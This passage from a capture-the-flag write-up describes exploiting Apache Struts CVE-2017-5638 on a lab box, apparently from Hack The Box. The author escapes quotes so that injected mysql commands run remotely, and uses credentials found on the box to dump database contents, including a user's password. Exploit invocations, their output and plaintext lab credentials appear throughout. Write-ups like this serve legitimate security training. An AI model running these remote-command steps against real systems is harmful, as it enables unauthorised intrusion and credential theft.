 Afterwards, I went back one step and thought about what I've got that looks promising. I still did not find out where to apply the credentials I found. Probably some DB credentials? This would fit to the credential file name and to having a `mysql` user on the system. 

My first attempts to connect to the mysql server using the command `mysql -u ssn_admin -p 'AWs64@on*&'` completely failed, they produced Java stacktraces. I searched for other ways to get the data out of the database. I found out that `mysqldump` is installed as well and tried to dump all database content with the command: `mysqldump -u ssn_admin -p 'AWs64@on*&' --all-databases > /tmp/alldb.sql`. This also produced a stacktrace. I got a bit desperate before I found out that I need to escape the single quotes (they are probably used in Struts for surrounding the vulnerable String containing user input, but that's just a guess). [Ippsec's youtube video](https://www.youtube.com/watch?v=uMwcJQcUnmY) shows a much more clever approach to using RCE on this box: instead of issuing commands using the plain exploit, he uses a webshell in order to enable easier interaction with the box straight from the beginning.

Afterwards, the `mysql` commands started working. The credentials were working as well: 

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64/Monitoring/example "mysql -u ssn_admin -p\'AWs64@on*&\' -e \'show databases\'"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: mysql -u ssn_admin -p\'AWs64@on*&\' -e \'show databases\'

Database
information_schema
ssn
```

Again, I was scratching my head what to do after accessing the mysql server. I only had access to the `ssn` database and `information_schema`. I tried to get some more information searching through the `information_schema` database. I could not access `Database`, neither could I find another way in.

After hours of failure, I remembered the second user in the credentials file and that I never really checked which databases he has access to. I felt so stupid after checking:

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64/Monitoring/example "mysql -u admin -p\'admin\' -e \'show databases\'"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: mysql -u admin -p\'admin\' -e \'show databases\'

Database
information_schema
users
```

The `users` database sounded really promising and contained a password for `richard` inside the `accounts` table:

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64:8080/Monitoring/example "mysql -u admin -p\'admin\' -e \'use users; select * from accounts\'"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: mysql -u admin -p\'admin\' -e \'use users; select * from accounts\'

fullName        password        username
Richard F. Smith        9tc*rhKuG5TyXvUJOrE^5CK7k       richard
```
